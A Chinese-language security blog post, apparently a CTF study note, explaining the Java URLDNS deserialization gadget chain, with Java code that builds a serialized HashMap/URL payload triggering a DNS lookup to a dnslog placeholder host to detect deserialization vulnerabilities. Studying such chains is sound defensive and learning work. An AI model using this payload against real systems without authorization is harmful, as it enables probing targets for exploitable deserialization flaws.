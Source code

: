 ```yaml
---
date: 2024-05-12
categories:
    - CTF
tags: 
    - Java
    - 反序列化
slug: learning-java-urldns
readtime: 9

--- 
```


# Java学习日志——URLDNS小结


开始学习 Java 反序列化，开此文章记录向其迈出的第一步。

> 前置知识：Java 反射的基本利用。Java 序列化与反序列化的基本原理

<!-- more -->

## 跟进查看入口类 HashMap

根据 `ysoserial`上的 URLDNS 模块源码，我们得知整条链如下

```
 *   Gadget Chain:
 *     HashMap.readObject()
 *       HashMap.putVal()
 *         HashMap.hash()
 *           URL.hashCode()
```

在略微学习了一下基本的反序列化只是之后，我们知道对象反序列化，会触发该对象的 `readObject()` 方法。而想要利用反序列化漏洞，我们要尽可能找到一个合适的入口类，通常需要如下的要求：

1. 该类为 Java 内部类，或是很常见的外部类，从而确保适用性。
1. 该类自己实现了 `readObject()` 方法。
2. 该类的 `readObject()` 方法会触发其他方法，并且最终来到我们要执行的类的方法。

大佬们找到了 `HashMap`类，这个类重写了 `readObject()` 方法，在其中，我们能看到他对每个元素的 key 值调用的 `hash()` 方法，以确保 key 值在不同的机器上的 hash 值唯一。

这是 `HashMap.readObject()` 方法的部分实现，可以看到每个 key 都会调用 `hash()` 方法。

![image-20240512144317476](https://repo.sxrhhh.top/undefinedimage-20240512144317476.png)

跟进 `hash()` 方法，可以看见它对 key 值调用了 `hashCode()` 方法（只要 key 存在）。

![image-20240512144510070](https://repo.sxrhhh.top/undefinedimage-20240512144510070.png)

到此停止跟进，因为现在要调用的是 key 的 `hashCode()` 方法，我们需要找到一个类作为执行类，放入 HashMap 的 key 字段，这样当他反序列化时就会执行这个 key 对象的 `hashCode()` 方法。

## 跟进查看执行类 URL

现在我们需要第二个类放入 HashMap 的 key 字段，并且满足以下要求：

1. 可以被反序列化，即实现 serializeable 接口
1. 同样要求要么内部类，要么属于攻击目标的依赖，这样目标反序列化后才可以执行成功。
2. 不要求拥有 `readObject()` 方法，但是要求有上一个类传递下来的同名方法
3. 最好能够执行我们需要的命令，或者能够将链条延伸到下一个执行类

大佬们又找到了第二个类：`URL` 类。

这个类有着 `hashCode()` 方法，可以连接上面。然后这个方法最终可以发送一个 dns 请求，完成反序列化执行。我们跟进 URL 类，看下他的 `hashCode()` 方法：

![image-20240512145854555](https://repo.sxrhhh.top/undefinedimage-20240512145854555.png)

可以看到 URL 类存在一个私有属性 `hashCode` 且默认值为 -1：

![image-20240512150217606](https://repo.sxrhhh.top/undefinedimage-20240512150217606.png)

也就是说，当 URL 对象并没有执行过 `hashCode()`方法时，他会调用他的 `handler.hashCode()` 方法。这个叫做 `URLStreamHandler` 的类也算是这条攻击链的一环。我们跟进一下：

![image-20240512151133867](https://repo.sxrhhh.top/undefinedimage-20240512151133867.png)

可以看见 `handler.hashCode()` 方法会调用 url 的 `getHostAddress()`方法，这个方法会向着域名类型的 URL 链接发送 dns 请求，从而确认存在反序列化漏洞。

## 构造攻击链

我们写一个 Main 程序用来序列化我们的 payload。

```java
        // 1. 创建 url 对象和 HashMap 对象
        URL url = new URL("http://xxxxx.dnslog.cn");
        HashMap<URL, Integer> map = new HashMap<>();

        // 2. 将 url 的 hashCode 属性改为非 -1 值
        Field urlHashcode = URL.class.getDeclaredField("hashCode") ;
        urlHashcode.setAccessible(true) ;
        urlHashcode.set(url, 1234);

        // 3. 将 url 存入 hashMap
        map.put(url, 1);

        // 4. 将 url 的 hashCode 改为 -1
        urlHashcode.set(url, -1);

        // 5. 序列化 hashMap,存入文件中
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(new File("test.ser")));
        oos.writeObject(map);
```

可以看到，我们这里比预想的多出了 2和4 两个步骤。这是为什么呢。因为为了保证只有在反序列化成功时才会发送 dns 请求，那么之前我们就不允许发送 dns 请求。但是如果去掉第 2 步，我们会发现还没有反序列化就已经发送了 dns 请求。这是因为 `HashMap.put()` 方法也会走一遍攻击链。我们跟进 `put()` 方法：

![image-20240512161223224](https://repo.sxrhhh.top/undefinedimage-20240512161223224.png)

可以看到，和之前的攻击链如出一辙，并且还会修改我们的 `hashCode`，让我们的这个值不再等于 -1, 也就是说我们反序列化之后就不会再发送 dns 请求了。因此我们通过反射，提前将 `hashCode` 的值变为非 -1, 使得 `put`方法不会干扰我们的判断，然后再改回 -1, 进行序列化。

## 反序列化测试

我们写好一个反序列化类用来测试我们的 payload :

```java
        ObjectInputStream oos = new ObjectInputStream(new FileInputStream(new File("test.ser")));
        Object obj = (Object) oos.readObject();
```

简简单单两行代码，所做的就是反序列化一个对象。我们测试一下。先在 dnslog 上面申请一个地址，然后序列化。可以看见 dnslog 并没有反应。然后我们得到了叫做 "test.ser" 的 payload。我们再运行反序列化的方法，可以看到，dnslog有了一次 dns 记录。

![image-20240512174759236](https://repo.sxrhhh.top/undefinedimage-20240512174759236.png)

## JDK 版本问题

如果我使用的是 JDK17 作为序列化类的运行环境的话，会爆出以下的错误：

```
Exception in thread "main" java.lang.reflect.InaccessibleObjectException: Unable to make field private int java.net.URL.hashCode accessible: module java.base does not "opens java.net" to unnamed module @4617c264
	at java.base/java.lang.reflect.AccessibleObject.checkCanSetAccessible(AccessibleObject.java:354)
	at java.base/java.lang.reflect.AccessibleObject.checkCanSetAccessible(AccessibleObject.java:297)
	at java.base/java.lang.reflect.Field.checkCanSetAccessible(Field.java:178)
	at java.base/java.lang.reflect.Field.setAccessible(Field.java:172)
	at top.sxrhhh.testSerialize.Main.main(Main.java:25)
```

经过查阅，这是在 JDK17 新加入的特性，就是强制要求反射不允许对 Java 内部 api 进行操作。那么我们还怎么构造 payload 呢？难道说只能使用 1.8 ？经过各种版本的实验，我发现其实反序列化作为网络上传输数据的一种方法，并不一定要求 Java 的版本一致。因此，我们大可以不必费尽心思去绕过这一层，而是直接使用 1.8 低版本 JDK 去生成 payload, 然后再用 JDK17 的高版本运行反序列化类，就会发现效果是一样的。

## 小小总结

URLDNS 利用范围很广，它不依赖 JDK 的版本，使用的全是 Java 的内部类。因此，我们可以构造出 URLDNS 的 payload 用于检验目标是否具有反序列化漏洞。

---

作者：Sxrhhh

个人网站：[https://www.sxrhhh.top](https://www.sxrhhh.top/)

博客园：[Sxrhhh - 博客园 (cnblogs.com)](https://www.cnblogs.com/sxrhhh/)

转载请注明出处.

在个人网站持续更新中……